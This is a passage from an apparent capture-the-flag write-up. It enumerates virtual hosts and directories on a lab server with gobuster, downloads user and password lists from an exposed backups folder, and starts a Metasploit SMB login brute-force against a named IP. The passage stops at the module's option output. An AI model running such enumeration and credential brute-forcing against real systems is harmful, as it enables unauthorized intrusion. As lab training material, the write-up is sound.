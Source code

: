 ```md
Found: .cvsignore.cysec.local (Status: 400) [Size: 334]   
Found: .mysql_history.cysec.local (Status: 400) [Size: 334]
Found: .listing.cysec.local (Status: 400) [Size: 334]      
Found: .passwd.cysec.local (Status: 400) [Size: 334]       
Found: .listings.cysec.local (Status: 400) [Size: 334]     
Found: .htpasswd.cysec.local (Status: 400) [Size: 334]     
Found: .htaccess.cysec.local (Status: 400) [Size: 334]     
Found: .perf.cysec.local (Status: 400) [Size: 334]         
Found: .sh_history.cysec.local (Status: 400) [Size: 334]   
Found: .profile.cysec.local (Status: 400) [Size: 334]      
Found: .rhosts.cysec.local (Status: 400) [Size: 334]       
Found: .ssh.cysec.local (Status: 400) [Size: 334]          
Found: .swf.cysec.local (Status: 400) [Size: 334]          
Found: .svn.cysec.local (Status: 400) [Size: 334]          
Found: .svn/entries.cysec.local (Status: 400) [Size: 334]  
Found: .web.cysec.local (Status: 400) [Size: 334]          
Found: .subversion.cysec.local (Status: 400) [Size: 334]   
Found: @.cysec.local (Status: 400) [Size: 334]             
Found: lost+found.cysec.local (Status: 400) [Size: 334]    
Found: secret.cysec.local (Status: 200) [Size: 13089]      
```

Other subdomains are not interested but secret.cysec.local seems interesting
we discover secret.cysec.local as vhost then we add it to /etc/hosts.

```sudo echo -n "54.234.92.201 secret.cysec.local" >> /etc/hosts```

Then Visit secret.cysec.local in browser and it give a page with title called CYSEC CTF.After a while looking at page and saw nothing.
Started to bruteforce for any interesting files or directories
```md
gobuster dir -u http://secret.cysec.local/ -w /usr/share/wordlists/dirb/common.txt -q
```
```md
/backups              (Status: 301) [Size: 157] [--> http://secret.cysec.local/backups/]
/css                  (Status: 301) [Size: 153] [--> http://secret.cysec.local/css/]    
/fonts                (Status: 301) [Size: 155] [--> http://secret.cysec.local/fonts/]  
/icon                 (Status: 301) [Size: 154] [--> http://secret.cysec.local/icon/]   
/images               (Status: 301) [Size: 156] [--> http://secret.cysec.local/images/] 
/Images               (Status: 301) [Size: 156] [--> http://secret.cysec.local/Images/] 
/index.html           (Status: 200) [Size: 13089]                                       
/js                   (Status: 301) [Size: 152] [--> http://secret.cysec.local/js/]  
```

# port 445 enumeration again
From there we discover folder backups which has users and passwords

<img src='/assets/img/Keep_it_Simple_Stupid_CYSEC/creds.png' alt='creds'>

download files
```md
wget http://secret.cysec.local/backups/passwords.txt && wget http://secret.cysec.local/backups/users.txt
```
After that we can now bruteforce smb service to see if one of user have successful login and i just short it to one command liner msfconsole
```md
msfconsole -q -x 'use auxiliary/scanner/smb/smb_login;set RHOSTS 54.234.92.201;set RPORT 445;set USER_FILE ~/CYSEC/users.txt;set PASS_FILE ~/CYSEC/passwords.txt;set VERBOSE false;run'
```
```md
RHOSTS => 54.234.92.201
RPORT => 445
USER_FILE => ~/CYSEC/users.txt
PASS_FILE => ~/CYSEC/passwords.txt
```